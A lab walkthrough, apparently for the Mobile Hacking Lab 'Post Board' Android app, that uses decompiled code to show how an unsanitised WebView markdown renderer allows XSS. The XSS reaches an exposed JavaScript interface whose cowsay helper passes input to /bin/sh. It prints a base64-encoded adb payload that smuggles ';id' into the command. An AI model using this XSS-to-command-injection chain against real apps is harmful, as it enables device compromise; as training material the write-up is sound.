# Post Board

## Objective

- Exploit an XSS vulnerability in a WebView component to achieve RCE in an Android application.

## Methodology

1. Identify the XSS vulnerability within the WebView component.
2. Craft a JavaScript payload to exploit this vulnerability.
3. Leverage the exposed Java interface through the XSS to achieve RCE.

## Hints

- Pay attention to how user input is handled in the WebView.
- Explore how the Java interface is exposed to JavaScript.
- Test various JavaScript payloads to interact with the Java interface.

## Reconnaissance

### Opening the App

Once we open the app, we are greeted with a post messaging app in the form Markdown:



Posting a message will get us this:



Deleting the message will get us this:


### Opening the App using JADX

We can see the MainActivity manifest that is exported that handles an intent:



```xml
<activity
    android:name="com.mobilehackinglab.postboard.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data
            android:scheme="postboard"
            android:host="postmessage"/>
    </intent-filter>
</activity>
```

Moving into `com.mobilehackinglab.postboard.MainActivity` class, we can see how the class handles the intent:



```java
private final void handleIntent() {
    Intent intent = getIntent();
    String action = intent.getAction();
    Uri data = intent.getData();
    if (!Intrinsics.areEqual("android.intent.action.VIEW", action) || data == null || !Intrinsics.areEqual(data.getScheme(), "postboard") || !Intrinsics.areEqual(data.getHost(), "postmessage")) {
        return;
    }
    ActivityMainBinding activityMainBinding = null;
    try {
        String path = data.getPath();
        byte[] bArrDecode = Base64.decode(path != null ? StringsKt.drop(path, 1) : null, 8);
        Intrinsics.checkNotNullExpressionValue(bArrDecode, "decode(...)");
        String message = StringsKt.replace$default(new String(bArrDecode, Charsets.UTF_8), "'", "\\'", false, 4, (Object) null);
        ActivityMainBinding activityMainBinding2 = this.binding;
        if (activityMainBinding2 == null) {
            Intrinsics.throwUninitializedPropertyAccessException("binding");
            activityMainBinding2 = null;
        }
        activityMainBinding2.webView.loadUrl("javascript:WebAppInterface.postMarkdownMessage('" + message + "')");
    } catch (Exception e) {
        ActivityMainBinding activityMainBinding3 = this.binding;
        if (activityMainBinding3 == null) {
            Intrinsics.throwUninitializedPropertyAccessException("binding");
        } else {
            activityMainBinding = activityMainBinding3;
        }
        activityMainBinding.webView.loadUrl("javascript:WebAppInterface.postCowsayMessage('" + e.getMessage() + "')");
    }
}
```

From what we see inside the `handleIntent` method, this how to post a message using `adb`:

```pwsh
adb shell am start -a android.intent.action.VIEW -d "postboard://postmessage/<base64-Payload>" com.mobilehackinglab.postboard
```

Sending a malformed Base64 payload we will see the `cowsay` message.

Next, take a look at the `setupWebView` method:



```java
private final void setupWebView(WebView webView) {
    webView.getSettings().setJavaScriptEnabled(true);
    webView.setWebChromeClient(new WebAppChromeClient());
    webView.addJavascriptInterface(new WebAppInterface(), "WebAppInterface");
    webView.loadUrl("file:///android_asset/index.html");
}
```

Notice that the JavaScript is enabled, that means we can possibly inject/call JavaScript. Take a look at the `WebAppInterface`. The same interface is used in `handleIntent`:

```java
activityMainBinding2.webView.loadUrl("javascript:WebAppInterface.postMarkdownMessage('" + message + "')");
```

This how the `postMarkdownMessage` method looks like inside the `WebAppInterface` class:



```java
@JavascriptInterface
public final void postMarkdownMessage(String markdownMessage) {
    Intrinsics.checkNotNullParameter(markdownMessage, "markdownMessage");
    String html = new Regex("```(.*?)```", RegexOption.DOT_MATCHES_ALL).replace(markdownMessage, "<pre><code>$1</code></pre>");
    String html2 = new Regex("`([^`]+)`").replace(html, "<code>$1</code>");
    String html3 = new Regex("!\\[(.*?)\\]\\((.*?)\\)").replace(html2, "");
    String html4 = new Regex("###### (.*)").replace(html3, "<h6>$1</h6>");
    String html5 = new Regex("##### (.*)").replace(html4, "<h5>$1</h5>");
    String html6 = new Regex("#### (.*)").replace(html5, "<h4>$1</h4>");
    String html7 = new Regex("### (.*)").replace(html6, "<h3>$1</h3>");
    String html8 = new Regex("## (.*)").replace(html7, "<h2>$1</h2>");
    String html9 = new Regex("# (.*)").replace(html8, "<h1>$1</h1>");
    String html10 = new Regex("\\*\\*(.*?)\\*\\*").replace(html9, "<b>$1</b>");
    String html11 = new Regex("\\*(.*?)\\*").replace(html10, "<i>$1</i>");
    String html12 = new Regex("~~(.*?)~~").replace(html11, "<del>$1</del>");
    String html13 = new Regex("\\[([^\\[]+)\\]\\(([^)]+)\\)").replace(html12, "<a href='$2'>$1</a>");
    String html14 = new Regex("(?m)^(\\* .+)((\\n\\* .+)*)").replace(html13, new Function1<MatchResult, CharSequence>() { // from class: com.mobilehackinglab.postboard.WebAppInterface.postMarkdownMessage.1
        @Override // kotlin.jvm.functions.Function1
        public final CharSequence invoke(MatchResult matchResult) {
            Intrinsics.checkNotNullParameter(matchResult, "matchResult");
            return "<ul>" + CollectionsKt.joinToString$default(StringsKt.split$default((CharSequence) matchResult.getValue(), new String[]{"\n"}, false, 0, 6, (Object) null), "", null, null, 0, null, new Function1<String, CharSequence>() { // from class: com.mobilehackinglab.postboard.WebAppInterface.postMarkdownMessage.1.1
                @Override // kotlin.jvm.functions.Function1
                public final CharSequence invoke(String it) {
                    Intrinsics.checkNotNullParameter(it, "it");
                    StringBuilder sbAppend = new StringBuilder().append("<li>");
                    String strSubstring = it.substring(2);
                    Intrinsics.checkNotNullExpressionValue(strSubstring, "this as java.lang.String).substring(startIndex)");
                    return sbAppend.append(strSubstring).append("</li>").toString();
                }
            }, 30, null) + "</ul>";
        }
    });
    String html15 = new Regex("(?m)^\\d+\\. .+((\\n\\d+\\. .+)*)").replace(html14, new Function1<MatchResult, CharSequence>() { // from class: com.mobilehackinglab.postboard.WebAppInterface.postMarkdownMessage.2
        @Override // kotlin.jvm.functions.Function1
        public final CharSequence invoke(MatchResult matchResult) {
            Intrinsics.checkNotNullParameter(matchResult, "matchResult");
            return "<ol>" + CollectionsKt.joinToString$default(StringsKt.split$default((CharSequence) matchResult.getValue(), new String[]{"\n"}, false, 0, 6, (Object) null), "", null, null, 0, null, new Function1<String, CharSequence>() { // from class: com.mobilehackinglab.postboard.WebAppInterface.postMarkdownMessage.2.1
                @Override // kotlin.jvm.functions.Function1
                public final CharSequence invoke(String it) {
                    Intrinsics.checkNotNullParameter(it, "it");
                    StringBuilder sbAppend = new StringBuilder().append("<li>");
                    String strSubstring = it.substring(StringsKt.indexOf$default((CharSequence) it, '.', 0, false, 6, (Object) null) + 2);
                    Intrinsics.checkNotNullExpressionValue(strSubstring, "this as java.lang.String).substring(startIndex)");
                    return sbAppend.append(strSubstring).append("</li>").toString();
                }
            }, 30, null) + "</ol>";
        }
    });
    String html16 = new Regex("^> (.*)", RegexOption.MULTILINE).replace(html15, "<blockquote>$1</blockquote>");
    this.cache.addMessage(new Regex("^(---|\\*\\*\\*|___)$", RegexOption.MULTILINE).replace(html16, "<hr>"));
}
```

Since, when posting the MarkDown, the `postMarkdownMessage` method does not utilize any sanitation, we can inject an XSS payload:

```html

```

Upon sending the XSS payload as the markdown post, this is what we get:



We managed to enumerate methods that can be called by `WebAppInterface`, one of the interesting methods is `postCowsayMessage` that we will take a look later.

Also, we can see that `webView` loads an asset called `index.html`. Inside the assets folder, we have two assets:

1. `index.html`:

    ```html
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Sticky Note Message Board</title>
        <style>
            body, html {
                margin: 0;
                padding: 0;
                height: 100%;
                width: 100%;
                font-family: Arial, sans-serif;
                box-sizing: border-box;
            }

            *, *::before, *::after {
                box-sizing: inherit;
            }

            .message-board {
                padding: 20px;
                margin-bottom: 120px;
                overflow-y: auto;
                height: calc(100% - 140px);
            }

            .sticky-note {
                background-color: #ffeb3b;
                padding: 10px;
                margin: 10px 0;
                border-radius: 5px;
                box-shadow: 2px 2px 5px rgba(0,0,0,0.2);
                word-wrap: break-word;
                display: block;
                max-width: calc(100% - 20px);
                margin-left: auto;
                margin-right: auto;
            }

            .message-input {
                position: fixed;
                bottom: 0;
                left: 0;
                width: 100%;
                background-color: #f8f8f8;
                padding: 20px;
                border-top: 1px solid #ddd;
            }

            textarea {
                width: 100%;
                margin-bottom: 10px;
                padding: 10px;
                resize: none;
                border: 1px solid #ccc;
                border-radius: 4px;
            }

            button {
                width: 100%;
                padding: 10px;
                background-color: #007bff;
                color: white;
                border: none;
                border-radius: 4px;
                cursor: pointer;
            }

            .button-group {
                display: flex;
                align-items: center;
            }

            .post-message-button {
                background-color: #0096ff;
                color: white;
                border: none;
                padding: 10px 15px;
                border-radius: 4px;
                cursor: pointer;
                margin-right: 5px;
            }

            .clear-button {
                background-color: #ff5c5c;
                color: white;
                border: none;
                padding: 10px;
                font-size: 16px;
                border-radius: 50%;
                cursor: pointer;
                height: 40px;
                width: 40px;
                display: flex;
                justify-content: center;
                align-items: center;
            }

        </style>
    </head>
    <body>
    <div class="message-board" id="messageBoard"></div>

    <div class="message-input">
        <textarea id="message" placeholder="Write your Markdown message here"></textarea>
        <div class="button-group">
            <button onclick="postMessage()" class="post-message-button">Post Message</button>
            <button onclick="clearMessages()" class="clear-button">X</button>
        </div>
    </div>

    <script>
            function postMessage() {
                var message = document.getElementById('message');

                // Call JavaScript interface to post message
                window.WebAppInterface.postMarkdownMessage(message.value);

                message.value = '';

                // Update the message board
                updateMessages();
            }

            function updateMessages() {
                var jsonString = window.WebAppInterface.getMessages();
                var messages = JSON.parse(jsonString);

                var messageBoard = document.getElementById('messageBoard');
                messageBoard.innerHTML = ''; // Clear message board

                // Add messages as sticky notes to the message board
                messages.forEach(function(message) {
                    var stickyNote = document.createElement('div');
                    stickyNote.className = 'sticky-note';
                    stickyNote.innerHTML = message;
                    messageBoard.appendChild(stickyNote);
                });

                // Scroll to the bottom of the message board
                messageBoard.scrollTop = messageBoard.scrollHeight;
            }

            function clearMessages() {
                var messageBoard = document.getElementById('messageBoard');
                messageBoard.innerHTML = ''; // Clear message board

                // Call JavaScript interface to clear cache
                window.WebAppInterface.clearCache();
            }

            updateMessages();

    </script>
    </body>
    </html>
    ```

    The `index.html` contains the content of the WebView.
2. `cowsay.sh`:

    ```sh
    ┌──(ka-52m-hokum-1337㉿PTG-RedTeam-DimasHerjunodarpito)-[/mnt/c/Users/Dimas Herjunodarpito/Documents/MHL/LABS/Post-Board]
    └─$ cat decompiled/assets/cowsay.sh 
    #!/bin/sh

    # Function to print the top border of the speech bubble
    print_top() {
        message="$1"
        length=$(echo -n "$message" | wc -c)
        printf " "
        i=0
        while [ "$i" -lt "$length" ]; do
            printf "_"
            i=$((i+1))
        done
        printf "\n"
    }

    # Function to print the bottom border of the speech bubble
    print_bottom() {
        message="$1"
        length=$(echo -n "$message" | wc -c)
        printf " "
        i=0
        while [ "$i" -lt "$length" ]; do
            printf "-"
            i=$((i+1))
        done
        printf "\n"
    }

    # Function to print the speech bubble with the message
    print_message() {
        message="$1"
        print_top "$message"
        printf "< %s >\n" "$message"
        print_bottom "$message"
    }

    # Function to print the cow
    print_cow() {
        printf "        \\   ^__^\\n"
        printf "         \\  (oo)\\_______\\n"
        printf "            (__)\\       )\\/\\n"
        printf "                ||----w |\\n"
        printf "                ||     ||\\n"
    }

    # Main script execution
    main() {
        if [ "$#" -lt 1 ]; then
            printf "Usage: %s <message>\\n" "$0"
            exit 1
        fi

        # Concatenate all arguments into one argument separated by a space
        message="$*"

        print_message "$message"
        print_cow
    }

    # Call the main function with all arguments passed to the script
    main "$@"
    ```

    The `cowsay` here is in the format of an `.sh` file. This is because this file will be called in a method called `runCowsay` inside the `CowsayUtil` class that's called in `MainActivity`.

Let's check out `runCowsay` method:



```java
public final String runCowsay(String message) throws InterruptedException, IOException {
    Intrinsics.checkNotNullParameter(message, "message");
    try {
        String[] command = {"/bin/sh", "-c", CowsayUtil.scriptPath + ' ' + message};
        Process process = Runtime.getRuntime().exec(command);
        StringBuilder output = new StringBuilder();
        InputStream inputStream = process.getInputStream();
        Intrinsics.checkNotNullExpressionValue(inputStream, "getInputStream(...)");
        Reader inputStreamReader = new InputStreamReader(inputStream, Charsets.UTF_8);
        BufferedReader bufferedReader = inputStreamReader instanceof BufferedReader ? (BufferedReader) inputStreamReader : new BufferedReader(inputStreamReader, 8192);
        try {
            BufferedReader reader = bufferedReader;
            while (true) {
                String it = reader.readLine();
                if (it == null) {
                    Unit unit = Unit.INSTANCE;
                    CloseableKt.closeFinally(bufferedReader, null);
                    process.waitFor();
                    String string = output.toString();
                    Intrinsics.checkNotNullExpressionValue(string, "toString(...)");
                    return string;
                }
                output.append(it).append("\n");
            }
        } finally {
        }
    } catch (Exception e) {
        e.printStackTrace();
        return "cowsay: " + e.getMessage();
    }
}
```

This line of code from the method is vulnerable to OS Command Injection/Remote Code Execution (RCE):

```java
String[] command = {"/bin/sh", "-c", CowsayUtil.scriptPath + ' ' + message};
Process process = Runtime.getRuntime().exec(command);
```

Next, let's check `postCowsayMessage` method:



```java
@JavascriptInterface
public final void postCowsayMessage(String cowsayMessage) throws InterruptedException, IOException {
    Intrinsics.checkNotNullParameter(cowsayMessage, "cowsayMessage");
    String asciiArt = CowsayUtil.INSTANCE.runCowsay(cowsayMessage);
    String html = StringsKt.replace$default(StringsKt.replace$default(StringsKt.replace$default(StringsKt.replace$default(StringsKt.replace$default(asciiArt, "&", "&amp;", false, 4, (Object) null), "<", "&lt;", false, 4, (Object) null), ">", "&gt;", false, 4, (Object) null), "\"", "&quot;", false, 4, (Object) null), "'", "&#039;", false, 4, (Object) null);
    this.cache.addMessage("<pre>" + StringsKt.replace$default(html, "\n", "<br>", false, 4, (Object) null) + "</pre>");
}
```

This method will send the message for the `cowsay` to the vulnerable `runCowsay` method. We will abuse this `postCowsayMessage` by calling it using an XSS we did earlier and send append an OS Command Injection/Remote Code Execution (RCE) inside the message, like: `Dummy Message;whoami`. After that, we need to trigger the `cowsay` with a malformed base64 to trigger the payload we sent.

## Exploitation

Let's try using this payload:

```html

```

base64 encoding the payload and then sending it to the app using `adb`:

```pwsh
adb shell am start -a android.intent.action.VIEW -d "postboard://postmessage/PGltZyBzcmM9InRlc3QiIG9uZXJyb3I9IldlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZSgnYTtpZCcpIj4=" -n com.mobilehackinglab.postboard/.MainActivity
```



Trigger the cowsay to get RCE:



RCE is successfuly triggered.